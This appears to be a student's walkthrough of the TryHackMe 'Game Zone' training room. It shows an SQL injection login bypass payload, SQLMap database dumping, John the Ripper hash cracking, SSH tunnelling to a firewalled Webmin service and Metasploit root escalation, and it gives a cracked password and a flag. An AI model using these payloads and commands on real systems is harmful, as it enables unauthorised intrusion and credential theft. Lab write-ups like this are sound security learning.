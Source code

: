[TryHackMe \| Game Zone](https://tryhackme.com/room/gamezone)

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

---
Let begin with an Nmap scan to start this penetration test of
```
nmap -p- -T5 ip_address
```

While that runs, i checked the ip address in a browser to see if there is a webserver running, and there is in fact on running on port 80 and i see that there is an ssh on port 22
![[Pasted image 20251020191653.png]]

# Webserver Port 80
![[Pasted image 20251020191719.png]]

Seems to be a game themed webpage of the game Hitman, and the first question asks for the name of the character displayed 

Since i have played this game a lot, i already know the name of this character

***Task 1 Answer: Agent 47***

---
# Understanding SQL

so basically SQL is the language used to communicate to the SQL databases which most of webserver utilized to store their data on.

## Basic SQL Queries
```
SELECT * FROM users WHERE username = :username AND password := password
```

Tryhackme explain that if we input our username and password in the credential field on the website and it utilizes the above SQL query then that itself is a vulnerability which can be exploited

## Exploiting SQL using SQL Injection (Basic)

```sql
' or 1=1 -- - 
```

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

![[Pasted image 20251020192501.png]]
We gain access and authenticate once we hit enter 
![[Pasted image 20251020192528.png]]

***We get redirected to the portal.php***

---
# Using SQLMap

This is an automatic SQL Injection and Database Takeover tool, it can be downloaded [GitHub - sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap)
and comes preinstall on kali linux

1. We need to point the SQLMap tool to a input field 
2. We need to intercept the request with BurpSuite

![[Pasted image 20251020193317.png]]

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.
![[Pasted image 20251020193413.png]]

- -r uses the intercepted request you saved earlier
- --dbms tells SQLMap what type of database management system it is
- --dump attempts to outputs the entire database

![[Pasted image 20251020193516.png]]

After SQLMAP Finishes 
![[Pasted image 20251020195149.png]]

## In the users table, what is the hashed password?
```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 
```

## What was the username associated with the hashed password?
```

```

## What was the other table name?
```
post
```

---
# Cracking Password with JohnTheRipper

John is a powerful opensource tool also installed on kali Linux, with the ability to crack hashes, similar to hashcat

```bash
john hash.txt --wordlists=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

![[Pasted image 20251020195754.png]]

The plaintext password is: videogamer124 

---
# Gaining Access via SSH

We now have a username and password, lets try and login to the SSH port service we identified earlier using the below command
```
ssh agent47@ip_address
```

![[Pasted image 20251020200137.png]]

***What is the user flag? 649ac17b1480ac13ef1e4fa579dac95c***

---
# Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

## Using ss to investigate sockets running on a host
We will use a tool called ss to investigate sockets running on a host.

If we run ss -tulpn it will tell us what socket connections are running
```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q          Local Address:Port                         Peer Address:Port              
udp    UNCONN     0      0                           *:68                                      *:*                  
udp    UNCONN     0      0                           *:10000                                   *:*                  
tcp    LISTEN     0      80                  127.0.0.1:3306                                    *:*                  
tcp    LISTEN     0      128                         *:10000                                   *:*                  
tcp    LISTEN     0      128                         *:22                                      *:*                  
tcp    LISTEN     0      128                        :::80                                     :::*                  
tcp    LISTEN     0      128                        :::22                                     :::*
```

## Viewing a blocked service using port forward

From our Local attacker machine, run the following: 

```
ssh -L 10000:localhost:10000 <username>@<ip>
```

We have notice in the IP tables above that the port 1000 is blocked by a firewall, we can then forward this traffic to our server that we own

Now we browse to localhost:10000
![[Pasted image 20251020201309.png]]

### The name of the exposed CMS is: webmin

## Finding the CMS Version with Nmap Port Forward Scan
```
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap localhost -p10000 -sV -T5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-20 20:19 +04
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000032s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.32 seconds

```

- Since we have forwarded all traffic of port 10000, we can now perform an nmap scan on this port from out machine 

### What is the CMS Version
```
1.580 
```

---
# PrivEsc with Metasploit 
Since we have the CMS version, lets look for an exploit on metasploit

1. Search for the webmin 1.580 in MSFConsole
![[Pasted image 20251020202548.png]]
2. Set the options
![[Pasted image 20251020202854.png]]
3. Set the Payload and Exploit
![[Pasted image 20251020202929.png]]
4. Find the root flag
![[Pasted image 20251020203236.png]]


